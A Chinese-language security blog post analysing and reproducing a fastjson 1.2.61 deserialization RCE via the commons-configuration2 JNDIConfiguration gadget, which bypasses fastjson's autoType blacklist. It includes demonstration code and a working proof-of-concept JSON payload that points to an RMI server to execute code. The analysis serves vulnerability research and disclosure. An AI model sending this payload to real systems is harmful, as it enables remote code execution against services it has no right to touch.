 ```yaml
---
layout: post
title:  fastjson 1.2.61远程代码执行漏洞分析&复现
date:   2019-9-24 10:22:07 +0800
categories: Web安全
tag: 漏洞预警
---
```


* content
{:toc}

{%raw%}  

## 0x00 前言  

9月19日fastjson官方发布了1.2.61新版本，增加了autoType安全黑名单。但是新版本刚发布不到一周时间，又有大佬bypass其黑名单，成功绕过了安全防护，可以利用fastjson反序列化特性造成RCE。从漏洞公布的poc可知这次gadget是commons-configuration组件，该组件是java应用程序的配置管理类，用于协助管理各种格式的配置文件。  

## 0x01 影响版本  

fastjson：  `version <= 1.2.61`，目前官方还没发布补丁，通杀所有版本。  

## 0x02 漏洞分析  

造成漏洞的根因是fastjson反序列化JSON字符串时，会自动调用构造方法和get/setXXX方法，下面看一段fastjson反序列化JSON串的测试代码，先定义User类：  

```Java
package com.blacklist.test;

public class User {

    User(){
        System.out.println("构造方法被自动调用！");
    }

    private int age;
    private String name;
    private String address;

    public String getAddress() {
        System.out.println("getAddress方法被自动调用！");
        return address;
    }
    public void setAddress(String address) {
        System.out.println("setAddress方法被自动调用！");
        this.address = address;
    }
    public int getAge() {
        System.out.println("getAge方法被自动调用！");
        return age;
    }
    public void setAge(int age) {
        System.out.println("setAge方法被自动调用！");
        this.age = age;
    }
    public String getName() {
        System.out.println("getName方法被自动调用！");
        return name;
    }
    public void setName(String name) {
        System.out.println("setName方法被自动调用！");
        this.name = name;
    }
    //一个拥有返回值的get方法
    public String getTest(){
        System.out.println("getTest方法被自动调用！");
        return null;
    }
}

```

使用fastjson反序列化一段JSON字符串成User对象：  

```Java
package com.blacklist.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class ExploitMain {

    public static void main(String[] args) {
        //使用@type指定该JSON字符串应该还原成何种类型的对象
        String userInfo = "{\"@type\":\"com.blacklist.test.User\",\"name\":\"curz0n\", \"age\":18}";
        //开启setAutoTypeSupport支持autoType
        ParserConfig.global.setAutoTypeSupport(true);
        //反序列化成User对象
        JSONObject user = JSON.parseObject(userInfo);
    }
}
```

执行代码，输出结果如下：  

```
构造方法被自动调用！
setName方法被自动调用！
setAge方法被自动调用！
getAddress方法被自动调用！
getAge方法被自动调用！
getName方法被自动调用！
getTest方法被自动调用！
```

可以看见fastjson反序列化字符串时会依次自动调用对象的构造方法，setXXX方法，getXXX方法。注意，被反序列化的字符串中没有address和getTest方法的相关的要素，但是fastjson依然自动调用了get方法。如果这些get/setXXX方法里面存在JNDI Reference注入漏洞（*这部分知识详情可参考笔者发布的上一篇文章[《CVE-2019-14540远程代码执行漏洞分析&复现》](https://curz0n.github.io/2019/09/20/cve-2019-14540/)*），那就可以借助fastjson的特性执行我们指定的任意代码，造成RCE。  
从公布的poc可知这次利用的gadget是[commons-configuration](https://github.com/apache/commons-configuration/blob/master/src/main/java/org/apache/commons/configuration2/JNDIConfiguration.java)组件的`org.apache.commons.configuration2.JNDIConfiguration.setPrefix(final String prefix)`方法，源码如下：  

```Java
    public void setPrefix(final String prefix)
    {
        this.prefix = prefix;

        // clear the previous baseContext
        baseContext = null;
    }
```

setPrefix方法就是初始化成员变量，并使baseContext等于null，逻辑很简单，看不出任何问题。那我们就先看一下JNDIConfiguration的构造方法，无参构造方法调用带1个参数的构造方法，然后new一个InitialContext对象，调用带有2个参数的构造方法，代码如下所示：  

```Java
    public JNDIConfiguration(final String prefix) throws NamingException
    {
        this(new InitialContext(), prefix);
    }
```

带两个参数的构造方法详情如下，把InitialContext对象赋值给成员变量context：  

```Java
    public JNDIConfiguration(final Context context, final String prefix)
    {
        this.context = context; //new InitialContext()
        this.prefix = prefix;
        initLogger(new ConfigurationLogger(JNDIConfiguration.class));
        addErrorLogListener();
    }
```

接着分析代码，看哪里调用了context变量，最后定位到getBaseContext方法，代码详情如下：  

```Java
    public Context getBaseContext() throws NamingException
    {
        if (baseContext == null)
        {
            baseContext = (Context) getContext().lookup(prefix == null ? "" : prefix);
        }

        return baseContext;
    }
```

因为在setPrefix方法中设置了baseContext等于null，所以会进入if判断，接着getContext方法返回InitialContext对象，并调用lookup方法，其传入的参数变量正好是setPrefix方法设置的参数变量，可以被用户控制，这是典型的JNDI Reference注入漏洞的代码特征。因为fastjson特性，会自动调用具有返回值的getXXX方法，所以可以断定getBaseContext方法可以造成远程代码执行漏洞。  

## 0x03 漏洞复现  

### 环境准备  

Eclipse工程结构如下：  

```
Configuration2_Gadget
│  .classpath
│  .project
│
├─.settings
│      org.eclipse.jdt.core.prefs
│
├─bin
│  └─com
│      └─fastjson1261
│              ExploitMain.class
│
├─libs
│      commons-configuration2-2.6.jar  //https://www-eu.apache.org/dist//commons/configuration/binaries/commons-configuration2-2.6-bin.zip
│      commons-lang3-3.9.jar  //https://www-eu.apache.org/dist//commons/lang/binaries/commons-lang3-3.9-bin.zip
│      commons-logging-1.2.jar  //https://www-us.apache.org/dist//commons/logging/binaries/commons-logging-1.2-bin.zip
│      commons-text-1.8.jar  //https://www-eu.apache.org/dist//commons/text/binaries/commons-text-1.8-bin.zip
│      fastjson-1.2.61.jar  //http://repo1.maven.org/maven2/com/alibaba/fastjson/
│
└─src
    └─com
        └─fastjson1261
                ExploitMain.java
```

### POC  

根据前面的漏洞分析，构造基于rmi协议的poc如下：  

```
String poc = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}";
```

启动RMI服务器，执行poc，熟悉的计算器应用被打开：  

![](/assets/images/2019-09-24-fastjson_1_2_61_blacklist_bypass/1.png)  


## 0x04 结语  

开源项目[fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)工程记录了fastjson黑名单的明文信息，可以看见在fastjson 1.2.61版本中过滤了 version 1.x老版本的org.apache.commons.configuration.JNDIConfiguration，而这次利用的gadget是Apache Commons Configuration version 2.x新版本，其包名变成了org.apache.commons.configuration2，从而绕过了黑名单防护。  

**References:**  

[FastJson 1.2.61远程代码执行漏洞(From第三方jar包)](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483807&idx=1&sn=4e9a229fb32721b353c896e1a9fab1eb&chksm=fd07cb00ca704216e9f9f99f6f615014581eb3f9a8423e8213c4840e498241cf169ffe187343&mpshare=1&scene=23&srcid=&sharer_sharetime=1569291237460&sharer_shareid=b9dede03cd3f2e7d4dbf72830bcff7c6#rd)  

**版权声明：转载请注明出处，谢谢。[https://github.com/curz0n](https://github.com/curz0n)**  

{%endraw%}  














